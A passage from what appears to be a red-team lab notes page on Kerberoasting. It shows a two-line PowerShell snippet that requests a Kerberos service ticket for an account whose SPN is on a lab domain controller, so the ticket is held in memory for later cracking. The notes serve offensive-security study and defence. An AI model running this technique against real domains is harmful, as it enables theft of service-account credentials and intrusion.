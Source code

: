 ![](../../.gitbook/assets/kerberoast-setspn%20%281%29.png)

Attacker requesting a kerberos ticker for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberoast-kerberos-token.png)
